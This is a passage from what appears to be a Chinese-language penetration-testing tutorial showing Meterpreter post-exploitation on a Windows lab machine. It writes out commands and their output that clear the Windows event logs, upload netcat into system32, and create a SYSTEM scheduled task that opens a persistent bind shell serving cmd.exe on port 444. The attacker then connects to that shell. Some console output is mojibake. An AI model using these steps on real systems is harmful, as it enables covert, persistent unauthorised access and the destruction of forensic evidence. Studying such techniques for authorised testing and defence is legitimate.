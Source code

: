 ```
meterpreter > clearev
[*] Wiping 446 records from Application...
[*] Wiping 1747 records from System...
[*] Wiping 1055 records from Security...
```
  ![](/images/清除日志后的结果.png)

### 持久性后门程序植入
- 上传后门程序植入
```
meterpreter > upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
//nc.exe  瑞士军刀

[*] uploading  : /usr/share/windows-binaries/nc.exe -> C:\windows\system32
[*] uploaded   : /usr/share/windows-binaries/nc.exe -> C:\windows\system32\nc.exe


meterpreter > shell

Process 1540 created.
Channel 2 created.
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����



C:\Windows\system32>chcp 65001

chcp 65001
Active code page: 65001



C:\Windows\system32>schtasks /create /tn "nc" /ru system /tr "c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe" /sc onstart
schtasks /create /tn "nc" /ru system /tr "c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe" /sc onstart

SUCCESS: The scheduled task "nc" has successfully been created.
```

- 然后用nc连接后门程序
```
┌──(kali㉿kali)-[~]
└─$ nc 192.168.10.142 444

Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����


C:\Windows\system32>hostname   

hostname
WIN-5MQI51VLCDC
```
